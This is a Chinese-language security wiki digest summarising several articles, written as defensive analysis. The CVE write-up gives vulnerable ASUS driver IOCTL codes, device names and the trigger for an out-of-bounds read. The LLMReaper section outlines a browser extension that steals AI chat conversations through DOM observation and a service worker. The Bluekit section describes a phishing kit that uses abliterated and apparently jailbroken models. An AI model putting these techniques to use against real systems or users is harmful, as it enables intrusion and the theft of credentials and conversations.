**对于安全团队**：Mythos Preview 可作为高价值的漏洞发现助手，尤其在有源代码的场景下效果显著。但不应将其作为唯一依赖——需要搭配 XBOW 这类 live-site 验证平台来过滤误报、确认可利用性。在资源受限场景下，可权衡其 5x 成本与 GPT-5.5 多次尝试的成本效益比。
**对于 AI 安全产品构建者**：Mythos 的强项（源码分析）和弱项（判断保守性）为产品设计提供了明确方向——需要精确的提示工程、显式威胁模型输入和独立的验证层。其在原生代码/逆向工程上的优势提示了在二进制安全、固件分析等垂直领域的产品机会。
**对于 red team / 渗透测试**：Mythos 在漏洞发现lead generation 阶段极具价值，但最终 exploit 构造和验证仍需人工或专用工具链。其"字面化"判断倾向意味着在宽松解释规则威胁建模场景下可能遗漏真实风险——需要在提示中明确规则意图而不仅是字面描述。
**对于基准测试和红队评估**：视觉敏锐度（浏览器交互）已足以支持实际工作流，这是 Anthropic 逆转了近期模型在该维度退化趋势的积极信号。跨架构固件和嵌入式场景的推理能力打开了新的评测维度。
## 相关实体
- [Mythos_Offensive_Security_Xbow_Evaluatio](https://github.com/QianJinGuo/wiki/blob/main/entities/mythos_offensive_security_xbow_evaluatio.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Introducing Aimap Security Testing For Ai Agent Bishop Fox](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-aimap-security-testing-for-ai-agent-bishop-fox.md)
- [Offensive Security Blog](https://github.com/QianJinGuo/wiki/blob/main/entities/offensive-security-blog.md)
- [Akamai Acquires Israeli Ai Browser Security Startup Layerx For 205 Million In Ca](https://github.com/QianJinGuo/wiki/blob/main/entities/Akamai-acquires-Israeli-AI-browser-security-startup-LayerX-for-205-million-in-ca.md)

---

## Ch12.075 Getting a CVE Without Shipping Slop

> 📊 Level ⭐⭐ | 5.8KB | `entities/getting-cve-without-shipping-slop.md`

# Getting a CVE Without Shipping Slop

> **来源**: credrelay.com
> **作者**: Jeff (Cred Relay Newsletter)
> **发布日期**: 2026-06-16

## 摘要

作者使用 Claude Code + Ghidra MCP 工具链成功获得两个 ASUS 驱动 CVE（CVE-2026-3508 和 CVE-2026-6737），并总结了 AI 辅助安全研究中"不发垃圾报告"的核心原则。文章展示了 AI 辅助逆向工程的实战流程：从驱动筛选、逆向分析到 PoC 编写，同时强调了人工验证的不可替代性。

## 核心要点

### 1. 工具链与方法论

- **cthaeh**: 作者自建工具，基于自定义标准对驱动进行优先级排序，排除已知被覆盖的驱动（如 Microsoft 驱动）
- **Ghidra MCP**: 通过 MCP 协议让 Claude Code instrument Ghidra，实现 AI 辅助逆向工程
- **Claude Code**: 辅助逆向分析和 PoC 代码生成——"生成 C 代码比手写快得多"
- **关键前提**: 研究者必须能读懂 C 代码，知道"正确"长什么样

### 2. CVE-2026-3508: AsusWmiAcpi.sys 越界读取

| 属性 | 详情 |
|------|------|
| 驱动 | AsusWmiAcpi.sys (ASUS System Control Interface) |
| 版本 | 2.1.68.0 (asussci2.inf 3.1.57.0) |
| IOCTL | 0x22240C (IOCTL_ATK_ACPI_WMIFUNCTION) |
| 类型 | Out-of-bounds read |
| CVSS | 6.8 Medium |

**根因分析**: 驱动接受 METHOD_BUFFERED IOCTL 输入，内部包含 `InBufferSize` 字段。驱动检查 claimed size 是否适配目标 buffer，但**未验证调用者是否实际发送了足够数据**。PoC 构造 12 字节请求但声称有 0x400 字节 payload，驱动信任该声明并从 kernel memory 越界读取。

### 3. CVE-2026-6737: AsusPTPFilter.sys 权限缺陷

| 属性 | 详情 |
|------|------|
| 驱动 | AsusPTPFilter.sys (ASUS Precision Touchpad Filter) |
| 类型 | Exposed IOCTL / Insufficient Access Control |
| CVSS | 2.0 Low |
| 修复版本 | 16.0.0.46+ (通过 Windows Update) |

**根因分析**: 驱动使用 `IoCreateDevice` 创建命名设备对象时**未提供显式 SDDL/device security descriptor**，Windows 应用默认权限允许标准本地交互用户打开这些对象。安全做法应使用 `IoCreateDeviceSecure` 或 `WdmlibIoCreateDeviceSecure` 配置 administrator-only DACL。

**可达设备**: `\\.\AsusHITBIService`, `\\.\AsusHITTP`, `\\.\AsusTPCC`, `\\.\AsusTPGM`, `\\.\AsusTPPC`, `\\.\AsusHidService`, `\\.\FingerPrint`

**可触达 IOCTL**: 0x220408 (驱动字符串读取), 0x220400 (固定偏移写入), 0x220420 (注册表参数读取), 0x2205B8 (状态/注册表处理器路径)

### 4. 反 slop 三原则

1. **用 PoC 验证漏洞**: 只报告能证明的东西——"finding was only real once it can be proven with a PoC and I understood what was happening"
2. **承认自己的无知**: 模型会 gaslight 你，如果你无法识别错误假设就会被误导
3. **手动编辑或重写报告**: AI 报告 verbose 且容易被识别，需要人工润色

## 深度分析

### AI 辅助逆向工程的现实边界

这篇文章是 AI 辅助安全研究的**罕见实战案例**。与 hype 不同，作者明确指出 AI 的角色是"辅助"而非"替代"：

- **AI 擅长**: 生成 C 代码、加速逆向分析迭代、快速 draft PoC
- **AI 不擅长**: 判断漏洞是否真实存在、区分真实发现与 hallucination
- **人不可替代**: 理解根因、验证 PoC 可靠性、编辑报告质量

这与 [Coding Agent 架构](https://github.com/QianJinGuo/wiki/blob/main/concepts/coding-agent-architecture.md) 的整体趋势一致：AI 作为 force multiplier，但 domain expertise 仍是核心竞争力。

### METHOD_BUFFERED 的经典陷阱

CVE-2026-3508 本质上是 Windows 驱动开发中的经典错误——信任用户态传入的 size field 而不验证实际 buffer 内容。`METHOD_BUFFERED` 的 `SystemBuffer` 大小由 `max(InputBufferLength, OutputBufferLength)` 决定，但驱动不应信任 buffer 内部声明的 size。这类漏洞在 IoT 和 OEM 驱动中极为常见。

### 低分 CVE 的价值

CVE-2026-6737 仅 CVSS 2.0，但作者指出"Did you know you could get a CVE for a low?"——低分 CVE 仍有价值：它证明了安全研究的完整性，且修复后可消除攻击面。对于 漏洞披露实践 实践而言，不要因为预期评分低就放弃报告。

## 实践启示

1. **工具链建设**: Ghidra MCP + Claude Code 是可复用的 AI 辅助逆向工程工具链，值得安全团队搭建
2. **驱动优先级排序**: 自动化工具 (如 cthaeh) 可帮助筛选值得投入时间的驱动目标
3. **PoC 为王**: AI 辅助发现的漏洞必须有可运行的 PoC 才能提交报告——这是防止 slop 的核心防线
4. **驱动安全审查**: OEM 驱动中 `IoCreateDevice` vs `IoCreateDeviceSecure` 的使用应纳入静态分析规则
5. **AI 报告质量控制**: AI 生成的漏洞报告 verbose 且易被识别，需要研究者深度编辑

## 相关实体

- [DeepMind AI Agent 安全](https://github.com/QianJinGuo/wiki/blob/main/entities/deepmind-securing-future-ai-agents.md) — AI Agent 安全的系统性框架
- [Agentic 渗透测试法律问题](https://github.com/QianJinGuo/wiki/blob/main/entities/agentic-penetration-testing-legal-questions.md) — AI 辅助安全测试的法律维度
- [GlassWASM 恶意软件](https://github.com/QianJinGuo/wiki/blob/main/entities/glasswasm-webassembly-malware-open-vsx.md) — 供应链安全与漏洞利用
- [Agent 安全威胁模型](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-threat-models.md) — Agent 安全概念框架

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/getting-cve-without-shipping-slop.md)

---

## Ch12.076 Fedora Hummingbird brings the container security model to a Linux host OS

> 📊 Level ⭐⭐ | 5.8KB | `entities/fedora-hummingbird-container-security.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/fedora-hummingbird-container-security.md)

## 核心要点
- value=8, confidence=7, product=56
- Thorough Fedora Hummingbird technical overview
## 相关实体
- [Fedora Hummingbird Brings The Container Security Model To Li](https://github.com/QianJinGuo/wiki/blob/main/entities/fedora-hummingbird-brings-the-container-security-model-to-li.md)
- [Sysdig Headless Cloud Security](https://github.com/QianJinGuo/wiki/blob/main/entities/sysdig-headless-cloud-security.md)
- [The It And Security Field Guide To Ai Adoption Tines](https://github.com/QianJinGuo/wiki/blob/main/entities/the-it-and-security-field-guide-to-ai-adoption-tines.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Drinking Llms](https://github.com/QianJinGuo/wiki/blob/main/entities/drinking-llms.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/fedora-hummingbird-container-security.md)

## 深度分析
Fedora Hummingbird 的发布标志着 Linux 发行版安全模型的一次根本性转向。在过去十年中，容器安全最佳实践主要集中在应用镜像层面——distroless 镜像、只读根文件系统、最小化攻击面等理念已广泛渗透至 CI/CD 流水线。而 Hummingbird 将这一整套安全范式下沉至主机操作系统层，意味着未来的 Linux 发行版可以像管理容器镜像一样管理整个系统。
**技术架构的核心设计选择**。Hummingbird 采用了"无包管理器、无 shell"的最小化运行时环境，这与 Google 的 distroless 项目一脉相承。项目团队在过去八个月构建了包含 49 种基础镜像的目录，涵盖 Python、Go、Node.js、Rust、Ruby、OpenJDK、.NET、PostgreSQL 和 nginx 等主流技术栈，一旦计及 FIPS 合规和多架构变体，镜像总数膨胀至 157 个。这种规模化交付能力依赖于 Konflux 构建管道的标准化支撑，而增量更新机制 chunkah 则解决了 OCI 镜像全量更新的带宽痛点。
**原子更新与不可变性设计**。Hummingbird 将操作系统本身打包为可引导的 OCI 容器镜像，这一决定带来了两个重要的安全属性：原子更新（atomic update）和内置回滚（built-in rollback）。根文件系统设为只读，可写状态严格隔离至 /var 和 /etc，从架构上消除了配置漂移（configuration drift）和部分更新状态这两类传统 Linux 维护中的顽疾。在企业环境中，这意味着操作系统层面的安全补丁不再是充满风险的手动干预过程，而是一次镜像替换的确定性操作。
**持续 CVE 修复管线的工程意义**。项目使用 Syft + Grype 进行镜像层漏洞扫描，当上游修复发布时，流水线自动触发重建、测试和发布流程。这与传统的 CVE 修复流程（人工评估影响、手动打包测试、逐机推送更新）形成了鲜明对比。在 Agentic AI 时代，大量 AI agent 运行在 Linux 主机上操作代码、访问 API、管理云资源——这类工作负载对操作系统完整性和可预测性的要求远高于传统应用，Hummingbird 的"零 CVE 目标"直接回应了这一需求。
**与 Red Hat 战略的协同**。Red Hat Enterprise Linux 事业部 VP兼总经理 Gunnar Hellekson 的表述揭示了 Red Hat 的双轨战略：RHEL 面向需要数十年稳定性的 IT 运维团队，而 Hummingbird 则面向追求上游速度和镜像化工作流的开发者（包括 human 和 agentic builders）。这意味着 Red Hat 正在用两个不同的产品线分别收割传统企业市场和新一代 AI 原生开发市场，Hummingbird 的 OCI 镜像形态天然适合嵌入 AI agent 的工具链。

## 实践启示
**对于 AI/ML 工程团队**：Hummingbird 为运行 AI agent 的基础设施提供了一个值得评估的新选项。如果 agent 需要在可信的最小化 Linux 环境中执行敏感操作（如访问云 API、操作代码仓库、管理密钥），distroless 主机 OS 能显著缩小攻击面。建议关注 GitLab 上的项目页面（gitlab.com/redhat/hummingbird/containers）的生产就绪状态和 RHEL 生态系统的兼容路径。
**对于安全工程师**：Hummingbird 的架构与"零信任"原则高度契合——不可变基础设施、只读根文件系统、基于镜像的 CVE 修复流水线，都是威胁模型中降低横向移动风险的有效控制。Syft + Grype 的集成模式也提供了一个可参考的软件供应链安全管线的实现范本，可迁移至其他使用容器镜像的 CI/CD 场景。
**对于 DevOps / Platform Engineering**：Hummingbird 的 OCI 镜像发布模式和增量更新工具 chunkah，代表了基础设施即代码（IaC）领域的下一个演进方向。当操作系统更新也通过镜像版本控制时，基础设施的定义将完全可复现。建议评估当前配置管理工具（如 Ansible、Puppet）在 Hummingbird 环境下的适配性，或考虑向镜像驱动的运维模式迁移。
**对于技术战略决策者**：Red Hat 同期推出 ARK（Always Ready Kernel）内核并将其与 Hummingbird 绑定，表明主流企业 Linux 供应商正在将"持续就绪"作为内核开发的新目标。Hummingbird 支持 x86_64 和 aarch64 双架构，并覆盖容器、虚拟机和裸金属三种部署场景，展示了极强的架构灵活性。这一动向值得密切跟踪，因为它可能重新定义"企业级 Linux 发行版"的交付形态。

---

## Ch12.077 Meet Bluekit: The AI-Powered All-in-One Phishing Kit

> 📊 Level ⭐⭐ | 5.7KB | `entities/bluekit.md`

# Meet Bluekit: The AI-Powered All-in-One Phishing Kit
Introducing Varonis Atlas: Secure everything you build and run with AI [Learn more](https://www.varonis.com/platform/ai-security?hsLang=en)
[](https://www.varonis.com/?hsLang=en)
Data Security Platform

## 相关实体
- [Ai Phishing Attacks Are On The Rise Are You Prepared Bitward](https://github.com/QianJinGuo/wiki/blob/main/entities/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md)
- [Ai Phishing Attacks Are On The Rise Are You Prepared Bitward](https://github.com/QianJinGuo/wiki/blob/main/entities/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md)
- [Amazon Quick Accelerating The Path From Enterprise Data To Ai Powered Decisions](https://github.com/QianJinGuo/wiki/blob/main/entities/amazon-quick-accelerating-the-path-from-enterprise-data-to-ai-powered-decisions.md)
- [Thehackernews Com The New Phishing Click How Oauth](https://github.com/QianJinGuo/wiki/blob/main/entities/thehackernews-com-the-new-phishing-click-how-oauth.md)
- [Ai Powered Honeypots Turning The Tables On Malicious Ai Agents](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-powered-honeypots-turning-the-tables-on-malicious-ai-agents.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/bluekit.md)

## 深度分析

Bluekit代表了钓鱼攻击工具生态从碎片化拼接向一站式平台演进的最新阶段。传统钓鱼攻击链条中，攻击者需要分别获取凭证收割页面、域名旋转器、短信网关等组件，分别配置并拼接整合——这一过程本身就构成了入行门槛和技术壁垒。Bluekit将整个攻击链整合进单一操作面板：站点创建、域名配置、捕获日志管理、投递工具和活动支持功能统一管理，Telegram作为默认外泄通道内置。这种一站式整合显著降低了攻击门槛，使不具备独立整合多工具能力的行为者也能够发起复杂钓鱼活动。40+网站模板覆盖邮件、云账户、开发者平台、社交媒体、零售和加密服务，2FA支持、欺骗伪装、地理位置模拟、反机器人隐蔽等进阶功能进一步扩展了攻击面。

Bluekit的AI助手组件引发了安全研究社区的特别关注。该面板内置多模型选项，包括经过abliterated处理的Llama默认模型以及GPT-4.1、Claude Sonnet 4、Gemini和DeepSeek变体。商业模型在界面中可见但需要额外配置才能使用，研究人员的判断是这些商业模型"很可能通过越狱或 permissive 实例访问"，因为标准API配置会对此类用途的输出进行审查或屏蔽。这意味着Bluekit的AI功能不仅仅是技术集成问题，还涉及模型提供商的安全策略漏洞——如果Claude Sonnet 4或GPT-4.1确实在Bluekit攻击场景中被实际调用，则表明现有模型安全防线的实际效果存在重大疑问。Varonis研究人员实际测试了默认abliterated Llama模型，结果显示AI助手只能生成"活动骨架"而非可用攻击流程，输出充满占位符和通用脚手架，需要大量人工清理才能实际使用。

Bluekit在钓鱼工具生态中的定位是"活跃开发中的新兴工具"而非成熟方案。相比已进一步实现自动化和运营便利化的同类工具，Bluekit仍处于功能快速迭代阶段。其开发者的更新节奏值得关注——在跟踪期间，Bluekit持续发布新功能、添加新模板的速度足以使安全社区将"跟上其变化节奏"本身视为重要任务。这种快速迭代模式意味着Bluekit可能尚未完全展现其最终能力形态，随着功能成熟度和采用率的提升，它出现在真实攻击活动中的可能性正在上升。Varonis尚未在真实攻击活动中捕获到Bluekit，但持续跟踪发现了其发布节奏本身就构成了威胁情报价值——该工具的存在和快速演进本身就是防御者需要纳入考量的已知威胁面扩展。

## 实践启示

1. **钓鱼攻击民主化趋势需要重新评估组织安全边界**：Bluekit代表的一站式钓鱼工具降低了攻击门槛，意味着此前需要专业技术能力才能发起的复杂钓鱼攻击现在可以被更低技能的威胁行为者实现。防御方不能仅依赖"攻击者需要高水平技术"的假设，需要将钓鱼防御能力覆盖到更广泛的潜在威胁行为者画像。

2. **模型提供商的安全策略漏洞具有真实的攻击面影响**：Bluekit集成了GPT-4.1和Claude Sonnet 4等商业模型用于攻击辅助这一事实表明，模型安全策略在实战中可能存在可被绕过的路径。安全研究社区应持续追踪这类越狱/ permissive实例的来源和传播途径，模型提供商也需要对API滥用检测投入更多资源。

3. **AI生成的钓鱼内容尚未达到可自动化使用的成熟度**：当前Bluekit的AI助手只能生成包含大量占位符的活动骨架，距离自动化生成可用攻击流程还有显著差距。这一判断应谨慎看待——AI模型能力的快速提升意味着"现在不成熟"不等于"未来不构成威胁"，防御者应以演进视角持续监控AI辅助攻击工具的能力边界变化。

4. **钓鱼模板的广覆盖是防御漏风的明确信号**：Bluekit支持40+模板覆盖iCloud、Apple ID、Gmail、Outlook、GitHub等主流平台，以及Zoho、Zara、Ledger等垂直服务，意味着任何使用这些服务的用户都可能成为攻击目标。组织应优先对使用上述平台的员工进行定向钓鱼演练和安全意识培训。

5. **快速迭代的开源威胁工具本身就是威胁情报信号**：Bluekit的开发活跃度和功能更新节奏可以作为独立的地缘政治和网络安全态势指标——当此类工具的发布频率显著上升时，通常意味着攻击者社区的技术能力正在快速扩散，防御方应相应提升威胁警戒级别。

---

## Ch12.078 Building is just the beginning: Introducing Discoverability | Lovable

> 📊 Level ⭐⭐ | 5.6KB | `entities/building-is-just-the-beginning-introducing-discoverability.md`

# Building is just the beginning: Introducing Discoverability | Lovable
[Skip to main content](https://lovable.dev/blog/building-is-just-the-beginning-introducing-discoverability#main-content)
[](https://lovable.dev/home)
[](https://lovable.dev/home)

*   [Community](https://lovable.dev/community)

## 相关实体
- [Lovable Discoverability Intro](https://github.com/QianJinGuo/wiki/blob/main/entities/lovable-discoverability-intro.md)
- [Building Is Just The Beginning Introducing Discove](https://github.com/QianJinGuo/wiki/blob/main/entities/building-is-just-the-beginning-introducing-discove.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Introducing The Ettin Reranker Family](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-the-ettin-reranker-family.md)
- [Building The Agentic Future Developer Highlights From Io 2026](https://github.com/QianJinGuo/wiki/blob/main/entities/building-the-agentic-future-developer-highlights-from-io-2026.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/building-is-just-the-beginning-introducing-discoverability.md)

## 深度分析

搜索不再是单一渠道，AI介导的发现正在改变游戏规则。传统观念里，SEO和品牌可见性是"以后再handoff给市场营销"的独立问题。但Lovable的分析指出，在几乎没有护城河可恃的竞争环境中，"以后"已经不存在。这意味着可发现性（discoverability）已经从产品生命周期中的"发布后问题"变成了"产品本身需要内嵌的能力"。

Lovable实现了一个根本性转变：让每个新应用从发布那一刻起就是搜索引擎和LLM爬虫可读的完整HTML。这不是后期SEO优化，而是架构层面的缺省状态。对于已经存在的4000万个应用，预渲染（pre-rendering）会生成静态HTML快照，使爬虫无需任何用户操作即可访问内容。这个技术决策的价值在于：它把"让应用可被发现"从用户需要主动执行的操作变成了平台自动处理的默认行为，大幅降低了可发现性的实践门槛。

AI工具（ChatGPT、Claude、Perplexity）作为发现渠道的重要性已经不亚于Google。Lovable选择Semrush作为搜索情报合作伙伴，将28亿关键词和43万亿反向链接的数据集直接嵌入构建体验中。这个集成方式的核心价值在于：用户不需要切换工具或在独立账户中操作，就能在构建对话界面内完成关键词分析、流量诊断、内容差距识别和着陆页优化。这种"同一对话内完成"的体验设计，将原本割裂的产品使用流程重新统一。

SEO审查能力现在覆盖了从sitemap到robots.txt、元数据、内容结构、alt文本、canonical标签的完整链条。新的SEO Dashboard替代了原有的Speed Dashboard，将搜索洞察和最佳实践汇聚在同一视图中，发现问题后可一键修复。这体现了Lovable将运营指标从"技术性能"转向"商业可发现性"的战略转向——速度指标服务于用户体验，而可发现性指标直接服务于增长。

值得思考的是，这篇文章将"security"作为唯一tag标注在实体上，但从内容看，discoverability的核心关联tag更接近SEO、营销、AI-platform。从上下文判断，这个tag可能暗示Lovable将可发现性视为一种"平台级安全"——即应用如果不能被发现，就等于在数字世界中不存在，这是一个基础性的平台保障机制。

## 实践启示

**可发现性要从"发布后优化"变成"架构级默认"。** 在系统设计阶段就让输出为完整的、可索引的HTML，而非后期通过预渲染补救。平台有能力自动处理时，这应该成为缺省行为，而非用户可选的功能。

**AI搜索渠道的覆盖要与传统SEO同步规划。** ChatGPT、Claude、Perplexity等AI工具作为发现渠道的重要性已经不亚于Google。这意味着内容的结构化程度、上下文清晰度、事实性陈述的准确性，会直接影响AI工具对其的引用和推荐质量。

**将SEO工具嵌入核心工作流，而非作为独立工具存在。** Semrush集成在构建对话界面内部，使用户无需切换上下文即可完成关键词研究和内容优化。这种"同一工具内完成"的体验设计原则，适用于任何需要降低用户操作摩擦的平台功能。

**把平台级问题转化为平台自动处理的默认行为。** 4000万存量应用通过预渲染自动获得可发现性，无需用户主动操作。当一个问题具有普遍性时，平台应该承担解决这个问题的责任，而非将负担推给每个用户。

**运营指标要从"技术性能"扩展到"商业可发现性"。** Speed Dashboard被SEO Dashboard替代，体现了从"产品有多快"到"产品能被多少人发现"的战略重心转移。对于任何依赖用户增长的产品，可发现性指标应该和技术指标占据同等优先级。

---

## Ch12.079 Scammers Send Physical Phishing Letters to Steal Ledger Wallet Seed Phrases

> 📊 Level ⭐⭐ | 5.6KB | `entities/Scammers-Send-Physical-Phishing-Letters-to-Steal-Ledger-Wall.md`

## 核心要点
- 攻击方式：实体钓鱼信件，内含 QR 码链接到钓鱼网站
- 骗局主题："Quantum Resistance"（量子抵抗）安全更新——利用量子计算威胁叙事
- 目标：Ledger 硬件钱包用户的 24 字助记词（seed phrase）
- 数据泄露源疑似：2026 年 1 月 Global-e（Ledger 电商合作伙伴）数据泄露
- 地区针对性：信件已在意大利用户中发现，多语言本地化版本
- Ledger 官方确认：永远不会通过网站、QR 码、电话或实体信件要求用户透露 seed phrase
## 相关实体
- [Ai Voice Cloning The Technology Behind It Whos Building It A](https://github.com/QianJinGuo/wiki/blob/main/entities/AI-Voice-Cloning-The-Technology-Behind-It-Whos-Building-It-a.md)
- [Ai Phishing Attacks Are On The Rise Are You Prepared Bitward](https://github.com/QianJinGuo/wiki/blob/main/entities/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md)
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/Scammers-Send-Physical-Phishing-Letters-to-Steal-Ledger-Wall.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
## 深度分析
### 攻击维度的升级：从数字到物理
传统钓鱼攻击聚焦于数字渠道（email、SMS、仿冒网站），但此案代表攻击维度的实质性扩展——实体邮件。
这种升级利用了不同的心理弱点：

- 实体邮件带来更高的"官方感"——人们通常对纸质信件比 email 更具信任
- QR 码作为跳转机制绕过了在电脑端识别钓鱼 URL 的习惯——手机扫码直接到达钓鱼网站，且手机浏览器地址栏可见性更差
- 攻击者利用量子计算这一新兴技术恐惧叙事制造紧迫感

### "量子抵抗"叙事的滥用
量子计算对加密货币的威胁是真实的理论风险，但目前尚无实际量子计算机能威胁现有加密。攻击者选择这个叙事点，说明他们在主动跟踪加密货币社区的技术关注点——量子抵抗固件升级是一个合理的业务需求伪装。
这揭示了加密货币社区面临的一个独特威胁曲线：技术门槛高意味着用户对技术叙事的敏感度也被攻击者利用。普通用户可能不完全理解量子计算，但"量子"这个词足以制造紧迫感。

### 数据来源与 Global-e 泄露的关联
报道指出"researchers and crypto community members suspect the information may have originated from the January 2026 breach involving Global-e, Ledger's e-commerce processing partner"。
如果这一关联成立，这是第三方数据泄露导致物理安全威胁的明确案例：

- 电商平台持有的订单/物流数据 → 地址、姓名、购买历史
- 攻击者利用这些信息制作看起来真实的实体邮件
- 本地化语言版本（意大利语）证明攻击者有详细的客户数据

### 钓鱼攻击的完整杀伤链
关键路径：实体信件 → QR 码 → 钓鱼网站 → 24 字 seed phrase 输入 → 攻击者立即清空钱包。
这个杀伤链的每个环节都针对不同的防御弱点：

- 实体邮件绕过邮件安全过滤
- QR 码绕过 PC 端安全浏览习惯
- 直接要求 seed phrase 绕过了 2FA/MFA 等额外安全层——一旦 seed phrase 被盗，所有后续认证都无效

## 实践启示
### 硬件钱包用户的关键原则
- **Seed phrase 绝对保密**：无论任何理由、任何渠道（网站、邮件、电话、实体信件），永远不要告诉任何人
- **物理邮件也是威胁载体**：对任何要求点击链接或扫码的实体邮件保持警惕，即使是看似官方的品牌邮件
- **通过官方应用/官网验证**：如收到声称来自 Ledger 的实体信件，应直接通过 Ledger Live 应用或官网 ledger.com 验证，而非点击任何 QR 码或链接

### 已受害用户的紧急响应
如果已经输入 seed phrase：
1. 立即将所有资金转移到新钱包（使用新 seed phrase）
2. 不要等待——攻击者可能在获得 seed phrase 后立即行动
3. 考虑使用多个钱包分散风险

### 供应链安全的更广泛教训
- 电商合作伙伴的数据安全应作为第三方风险管理的一部分
- 用户应意识到：任何持有你个人数据的公司泄露都可能以不可预见的方式被利用
- 加密货币领域尤其危险——资产一旦被盗不可逆转，且跨境追踪和追回极其困难

---

## Ch12.080 LLMReaper: 浏览器扩展的对话窃取攻击

> 📊 Level ⭐⭐ | 5.5KB | `entities/llmreaper-dom-conversation-exfiltration.md`

# LLMReaper: 浏览器扩展的对话窃取攻击

> **Background**: 本文档基于对外部技术来源的评分入库建立，v×c=8×8=64。

## 核心要点

演示浏览器扩展通过 DOM 访问静默窃取 LLM 对话的安全研究，涵盖 MutationObserver 攻击向量和已知供应链事件

---

## 相关实体
- [飞来汇借助 Aws Security Agent 构建跨境支付应用的智能安全防线](https://github.com/QianJinGuo/wiki/blob/main/entities/飞来汇借助-aws-security-agent-构建跨境支付应用的智能安全防线.md)
- [Powering Agentic Ai Sales Strategy With Amazon Bedrock Agent](https://github.com/QianJinGuo/wiki/blob/main/entities/powering-agentic-ai-sales-strategy-with-amazon-bedrock-agent.md)
- [Novee Security How To Get A 100 Conference Acceptance Rate The No](https://github.com/QianJinGuo/wiki/blob/main/entities/novee-security-how-to-get-a-100-conference-acceptance-rate-the-no.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/llmreaper-dom-based-ai-conversation-exfiltration-via-browser-5ee512.md)

## 深度分析

**1. MutationObserver 是双刃剑：合法功能与隐蔽窃取的根源**

MutationObserver 是 W3C 标准 API，设计初衷是让 Web 应用监听 DOM 变化以实现响应式 UI。然而 LLMReaper 证明了这一"合法功能"可直接转化为实时监控工具。攻击者只需几行 JS 代码订阅 `document.body` 的 `childList` 和 `subtree` 变化，即可在用户无感知的情况下捕获所有对话内容。这一发现意味着：任何依赖 DOM 渲染的 AI 聊天平台（Claude、ChatGPT、Gemini 等）都存在原生漏洞，而非某一平台的实现缺陷。

**2. 权限申请具有高度欺骗性：用户难以辨别风险**

LLMReaper 在 Manifest V3 配置中无需申请任何特殊权限，仅依赖 `"read and change all your data on websites you visit"` 这一广泛授权。此权限在浏览器扩展生态中极为常见，用户早已习惯性批准。然而同一权限可同时支撑"翻译助手"和"对话窃取"两种功能，用户在安装时几乎无法区分。这种对称性暴露了当前权限模型的根本性缺陷——基于范围的授权无法表达细粒度的意图限制。

**3. 响应完成检测的工程技巧揭示防御思路**

LLMReaper 使用停止按钮（Stop Button）的状态切换来判定流式输出是否完成，而非依赖轮询或定时器。这是一个精妙的工程选择：三大主流平台（ChatGPT、Claude、Gemini）均保留此按钮且行为一致，使其成为可靠的完成信号。这一发现为防御者提供了关键洞察——若能监控 DOM 中特定按钮元素的变化，即可作为检测此类侧信道攻击的潜在锚点。

**4. Service Worker 架构绕过同源策略的安全隐患**

内容脚本（content.js）直接发起网络请求会受同源策略约束，但 LLMReaper 将 exfiltration 逻辑置于 Service Worker 中，利用 `chrome.runtime.sendMessage` 桥接，由后台脚本执行外部 POST。攻击代码因此完全隐藏于浏览器内部，网络流量看起来来自扩展本身而非页面。MITRE ATT&CK T1041（Exfiltration Over C2 Channel）在此得到了具体的技术实现示范。

**5. 供应链攻击已成规模化威胁**

研究列举了三起真实事件：2024 年 12 月 Cyberhaven 扩展供应链攻击影响 260 万用户、2025 年 2 月 GitLab 发现 16 个恶意扩展影响 320 万用户、2026 年 4 月超 100 个恶意扩展同时活动。这些数据表明浏览器扩展生态已成为有组织的攻击面，用户即使保持警惕也难以独善其身——因为零日供应链事件在曝光前无法被个体防御。

## 实践启示

**1. 将 AI 对话视为公开渠道，永远不要输入敏感凭据**

无论是 API Key、密码、Token 还是私有代码/配置，粘贴进 AI 对话框的行为本质上等同于在不信任的信道中传输。安全团队应明确制定政策并培训员工：AI 聊天界面是潜在的攻击目标面，敏感数据必须经过脱敏或使用专用隔离环境。

**2. 定期审计浏览器扩展，遵循最小权限原则**

用户应每季度审查一次已安装扩展，移除长期未使用或来源不明的扩展。对于必须保留的扩展，主动限制其站点访问权限（如使用 Chrome 的"扩展程序管理器"按站点点击启用/禁用）。安全团队可在企业环境推行受控的扩展白名单制度。

**3. 利用浏览器Profiles实现工作隔离**

Chrome、Firefox 等浏览器支持 Profiles 功能，可创建完全独立的浏览器上下文，包括独立的扩展、Cookie 和站点数据。建议将 AI 助手使用限制在专用 Profile 中，与日常浏览（可能安装多种扩展）隔离。这是一个几乎零成本的防御层。

